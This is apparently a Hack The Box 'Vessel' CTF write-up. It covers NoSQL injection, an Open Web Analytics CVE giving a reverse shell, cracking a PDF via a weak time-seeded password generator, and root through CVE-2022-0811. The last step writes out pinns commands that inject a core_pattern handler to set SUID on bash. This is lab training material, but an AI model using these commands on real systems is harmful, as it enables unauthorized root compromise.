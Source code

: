 ```yaml
---
title: "Hack The Box - Vessel [Hard]"
date: 2023-02-12T10:42:27+03:00
draft: false
description: 
---
```


# Overview

Since it becomes very time consuming doing this in a video this write-up is going to be in a text.

The machine is labeled hard with a good reason, most of the tasks are time consuming but there are some interesting vulnerabilities like [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) and [CVE-2022-24637](https://www.exploit-db.com/exploits/51026).

On top of these we have [NoSQL Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection) and some PE reverse engineering.

# Write-up

### Flag 1

First I began enumerating the whole website with `ffuf`.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/common.txt -u "http://vessel.htb/FUZZ" -fs 26
```

With that I discovered a folder called `dev` which then led me to dumping the git repository of the website:

```
$ git-dumper http://vessel.htb/dev/.git ./website_dump
```

With the website avaliable, I can check the actual source code for vulnerabilities, immediately after opening the `routes/index.js`

```javascript
...
let username = req.body.username;
let password = req.body.password;
if (username && password) {
connection.query('SELECT * FROM accounts WHERE username = ? AND password = ?', [username, password], function(error, results, fields) { ...
```

With that I can see that the login page is vulnerable to NoSQL Injection. Since that the code doesn't check if the passed values if they are objects, I can use NoSQL payload to successfully login to the `/admin` page. 

Upon another discovery in the admin panel, I found that there is another domain on the host called `openwebanalytics`. From further investigation over what can be exploted there I landed on [CVE-2022-24637](https://www.exploit-db.com/exploits/51026). With that I could run a successful reverse shell on the machine. 

Using [linpeas](https://github.com/carlospolop/PEASS-ng) I found some useful information over the user `steven`

```
/home/steven/passwordGenerator # Windows PE Exectuable
/home/steven/.notes/screenshot.png # Screenshot of some program
/home/steven/.notes/notes.pdf # Password protected PDF
```

I suspected that the `screenshot.png` is a screenshot out of the `passwordGenerator`. The `passwordGenerator` was unusually big and the whole use of that binary is to create 'secure' passwords. I noticed 'python' icon over the icon on the binary and I suspected that this could be a packed python project with `PyInstaller`. I confirmed that when I loaded the whole thing in Ghidra/IDA. I used [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) to extract the `*.pyc` files, which I then used the [uncomplyle6](https://pypi.org/project/uncompyle6/) to decompile the `*.pyc` files. Which led me to the actual source code of that binary:

This is the function that generates the password:

```python
def genPassword(self):
        length = value
        char = index
        if char == 0:
            charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890~!@#$%^&*()_-+={}[]|:;<>,.?'
        else:
            if char == 1:
                charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
            else:
                if char == 2:
                    charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890'
                else:
                    try:
                        qsrand(QTime.currentTime().msec())
                        password = ''
                        for i in range(length):
                            idx = qrand() % len(charset)
                            nchar = charset[idx]
                            password += str(nchar)

                    except:
                        msg = QMessageBox()
                        msg.setWindowTitle('Error')
                        msg.setText('Error while generating password!, Send a message to the Author!')
                        x = msg.exec_()

                return password
```

I edited the `length` to 32 (as I have it on the screenshot) and edit the script a bit more to create a word list out of passwords. I can do that because `QTime.currentTime().msec()` which are the numbers from 1-1000 with that range I have a big chance of guessing the generated password. 

> **Note**: This process can be a bit frustrating since it takes time to generate the word lists. I personally spent little over 1 hour.

Then I used `pdfcrack` to crack the password of the PDF, there I found the password for the user `ethan` and I successfully logged in with it and I found the first flag.

### Flag 2

I ran `linpeas.sh` again, and I found the following `SUID` binary:

```
...
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root ethan 814936 Mar 15  2022 /usr/bin/pinns    
...
```

I searched around a bit what is this, and I landed on the [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) which exploited this binary. While doing this, I noticed that I also have the `runc`. 

```                                                                                               
╔══════════╣ Container related tools present
/usr/sbin/runc       
```

This was a very tricky one, and it needs some understanding of what's going on to successfully execute the attack. You can check out the link I've provided for [CVE-2022-0811](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/) to understand more about it. On the actual POC they have used Kubernetes, on our end I had to use  `runc`.

The parameters that are being passed to `pinns` are not being sanitized and validated, so I can use that to execute code with root access.

I needed to create a container using the `runc` without using `root` so I've used the `--rootless` arg.

Reference: https://github.com/opencontainers/runc/#rootless-containers

```
$ mkdir /tmp/syl
$ cd /tmp/syl/
$ runc spec --rootless
$ mkdir rootfs
$ echo "chmod +s /usr/bin/bash" > syl.sh
```

Then I should mount the root to the root of the container:

Reference: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/runc-privilege-escalation

```
$ runc --root /tmp/syl/ run alpine
# cat /etc/machine-id
c4ca4238a0b923820dcc509a6f75849b
```

This will run the container and spawn a shell. Next I would ssh into the machine from another session to execute the `pinns` binary to our container. 

```
$ /usr/bin/pinns -d /var/run -f c4ca4238a0b923820dcc509a6f75849b -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/syl/syl.sh #' --ipc --net --uts --cgroup
```

Then I need to trigger a core dump so that the `pinns` would execute the script in a case of a core dump. Following the PoC in crowdstrike:

```
# ulimit -c unlimited
# ulimit -c
unlimited
# tail -f /dev/null &
# ps
.. Find the `tail -f /dev/null` PID
# kill -SIGSEGV {thePID}
[1]+  Segmentation fault (core dumped) tail -f /dev/null
```

Back to the other session

```
$ bash -p
$ cat /root/root.txt
{HASH}
```
